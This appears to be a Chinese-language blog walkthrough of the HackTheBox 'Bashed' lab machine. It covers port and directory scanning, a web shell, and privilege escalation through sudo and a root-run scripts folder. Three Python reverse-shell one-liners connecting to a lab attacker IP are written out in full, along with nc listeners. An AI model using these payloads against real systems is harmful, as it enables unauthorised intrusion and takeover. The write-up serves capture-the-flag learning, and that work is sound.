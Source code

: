 bashed
===

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0416/%E6%8D%95%E8%8E%B7.PNG)

**端口探测：** 

**80/tcp open** http Apache httpd 2.4.18 ((Ubuntu))

100/tcp  filtered newacct

1500/tcp filtered vlsi-lm
...

**web目录探测：**
图片一：
/config.php: PHP Config file may contain database IDs and passwords.

+ OSVDB-3268: /dev/: Directory indexing found.

+ OSVDB-3092: /dev/: This might be interesting...

+ OSVDB-3268: /php/: Directory indexing found.

+ OSVDB-3092: /php/: This might be interesting...
...

在“dev/”目录下找到php文件

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0416/2883590-009c05f24f81a9e9.png)

尝试bash -i 反弹shell，失败，bash版本不适合。尝试nc -e反弹shell，nc版本不支持-e参数。
![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0416/1.PNG)

用python成功反弹了一个shell（shell 1）给kali。

**kali上监听**：`nc -lnvp 1234`
**网页上运行python命令：**
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.137",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
**信息搜集：**

> 普通用户
> arrexel:x:1000:1000:arrexel,,,:/home/arrexel:/bin/bash
> scriptmanager:x:1001:1001:,,,:/home/scriptmanager:/bin/bash
> 内核版本：
> Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
> 系统版本：Ubuntu 16.04.2 LTS \n \l

[尝试内核漏洞提权：](https://www.exploit-db.com/exploits/43418/)

有内核漏洞，但gcc没有安装。

## **该怎么提权呢？**

现在用户是www-data

尝试cd /home/arrexel，看到了user.txt，获取到flag。。

我还以为会有forbidden权限不够的情况。。。怎么回事，权限没划分好么？

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0416/2883590-b737e461e624b35f.png)
可以看到有三列，都是r——read，分别对应”文件所有者、组群、非组群“，因为非组群的权限是read，所以可读。然后再尝试下rm删除，果然”rm: cannot remove 'a': Permission denied“

**/home/scriptmanager目录下，有个脚本，说是检查linux提权的。运行后指出了一些可以运行的exp来提权**

但是没有gcc，有exp也没用啊！

[writeup](http://sicurolab.com/walkthroughs/hackthebox-bashed/)

## sudo -u username的用法
-u username不加此参数，代表要以**root** 的身份执行指令，而加了此参数，可以以 username 的身份执行指令（#uid 为该 username 的使用者号码）

**用shell 1运行如下命令，得到shell 2**

```
sudo -u scriptmanager python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.109",1235));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0416/2.PNG)
用sudo反弹了一个scriptmanager用户的shell。
在/scripts目录下，发现了它有root权限，于是我们在该目录下建立一个py脚本。
`nc -lvnp 1236`
`touch pri.py`

```
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.137",1236));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > pri.py
```
![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0416/3.PNG)

总结：
这个实验用了很多次python反弹shell。
用sudo -u username可以用其他用户来运行命令。
本次利用的scripts文件夹会自动运行常用的脚本，从而运行我们加入的反弹shell的py脚本。

![学习下sudoers文件](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0416/4.PNG)

注意：用户权限设置的注释下面，有一行`NOPASSWD： ALL` 说明用户使用`sudo`命令时，无需输入密码。


